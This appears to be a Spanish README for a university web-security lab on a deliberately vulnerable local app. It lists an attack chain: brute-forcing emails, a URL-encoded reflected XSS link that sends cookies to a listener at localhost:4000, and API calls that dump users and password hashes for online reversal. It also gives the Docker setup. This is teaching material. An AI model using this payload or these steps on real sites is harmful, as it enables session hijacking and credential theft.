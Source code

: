 # TP Seguridad Apps Web - Grupo 3

## Vector de ataque
1) Hacer fuerza bruta con Burp para obtener mails de usuarios
2) Enviar mails con link malicioso: `http://localhost:3000/html/home/user/dashboard/index.html?nombre=Juan%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%22POST%22,%27http://localhost:4000/damecookie%27);xhr.withCredentials%20=%20true;xhr.send()%3C/script%3E`
3) Leer las cookies e intentar entrar al sitio
4) Ver los requests que se hacen
5) Hacer GET /api/v1/User y GET /api/v1/User?distinct=password para obtener un array de usuarios y un array de sus respectivas contraseñas
6) Buscar contraseñas hasheadas en https://hashtoolkit.com/reverse-hash

## Cómo levantar el ambiente
1) Tener instalado Docker.
  a) Para Linux:
    `curl -fsSL https://get.docker.com -o get-docker.sh`
    `sh get-docker.sh`
  b) Para Windows: https://hub.docker.com/editions/community/docker-ce-desktop-windows
2) Levantar el entorno corriendo el comando en la carpeta raíz: `docker-compose up`. Esto levanta la aplicación web, la base de datos Mongo y la aplicación del atacante que escucha las cookies
